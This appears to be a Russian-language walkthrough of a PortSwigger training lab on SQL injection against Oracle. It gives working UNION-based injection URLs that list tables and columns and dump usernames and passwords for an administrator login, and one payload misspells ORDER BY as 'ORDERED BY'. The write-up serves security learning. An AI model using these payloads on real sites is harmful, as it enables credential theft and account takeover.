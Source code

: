 # SQL injection attack, listing the database contents on Oracle

## Theory

<h3>Список содержимого базы данных Oracle</h3>

Мы можем получить список таблиц, запросив all_tables:
```
SELECT * FROM all_tables
```

Далее мы можем перечислить столбцы, запросив all_tab_columns:
```
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_listing_the_database_contents_on_Oracle/assets/1.png)

Выбираем пункт Pets. Определяем [количество стобцов](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_determining_the_number_of_columns_returned_by_the_query) и какой [тип данных](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_finding_a_column_containing_text) они принимают. 

```
/filter?category=Pets'ORDERED+BY+3--

/filter?category=Pets'UNION+SELECT+'a','a'+FROM+dual--
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_listing_the_database_contents_on_Oracle/assets/2.png)

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_listing_the_database_contents_on_Oracle/assets/3.png)

Выведем таблицы которые есть в базе данных.
```
/filter?category=Pets'UNION+SELECT+table_name,'a'+FROM+all_tables--
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_listing_the_database_contents_on_Oracle/assets/4.png)

Находим нужную таблицу. Достанем столбцы из этой таблицы.
```
/filter?category=Pets'UNION+SELECT+column_name,'a'+FROM+all_tab_columns+WHERE+table_name='USERS_CPUAFD'--
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_listing_the_database_contents_on_Oracle/assets/5.png)

Затем достанем данные пользователей из столбца.
```
/filter?category=Pets'UNION+SELECT+USERNAME_JSDPJL,PASSWORD_MGGFPZ+FROM+USERS_CPUAFD--
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_listing_the_database_contents_on_Oracle/assets/6.png)

Заходим в учетную запись администратора.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_listing_the_database_contents_on_Oracle/assets/7.png)
